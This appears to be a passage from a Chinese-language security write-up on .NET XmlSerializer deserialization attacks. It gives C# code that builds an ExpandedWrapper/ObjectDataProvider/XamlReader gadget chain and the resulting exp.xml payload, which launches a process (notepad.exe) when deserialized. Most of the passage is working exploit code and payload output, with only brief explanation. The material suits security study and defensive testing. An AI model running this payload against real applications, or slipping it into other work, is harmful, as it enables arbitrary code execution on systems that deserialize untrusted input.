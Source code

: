 ```

public static void xml_payload()
{
    ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider> myExpWrap = new ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider>();
    myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
    myExpWrap.ProjectedProperty0.ObjectInstance = new System.Windows.Markup.XamlReader();
    myExpWrap.ProjectedProperty0.MethodName = "Parse";
    myExpWrap.ProjectedProperty0.MethodParameters.Add(xaml_data());

    using (MemoryStream stream = new MemoryStream())
    {
        XmlSerializer xml = new XmlSerializer(typeof(ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider>));
        xml.Serialize(stream, myExpWrap);
        stream.Position = 0;
        StreamReader reader = new StreamReader(stream);
        Console.WriteLine(reader.ReadToEnd());
        Console.WriteLine(typeof(ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider>).AssemblyQualifiedName);
    }

}

```
`xaml_data()` 生成`XamlReader()`调用的`xaml`文件，`ObjectDataProvider`调用`XamlReader()`传参`xaml`整个利用链的`payload`就完成了, `typeof(ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider>).AssemblyQualifiedName`是获取程序集限定名，用于传入`Type`。

>exp.xml

```
<?xml version="1.0"?>
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <ProjectedProperty0>
    <ObjectInstance xsi:type="XamlReader" />
    <MethodName>Parse</MethodName>
    <MethodParameters>
      <anyType xsi:type="xsd:string">&lt;ObjectDataProvider MethodName="Start" ObjectType="sd:Process" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"&gt;
  &lt;ObjectDataProvider.MethodParameters&gt;
    &lt;x:String&gt;notepad.exe&lt;/x:String&gt;
  &lt;/ObjectDataProvider.MethodParameters&gt;
&lt;/ObjectDataProvider&gt;</anyType>
    </MethodParameters>
  </ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>

```
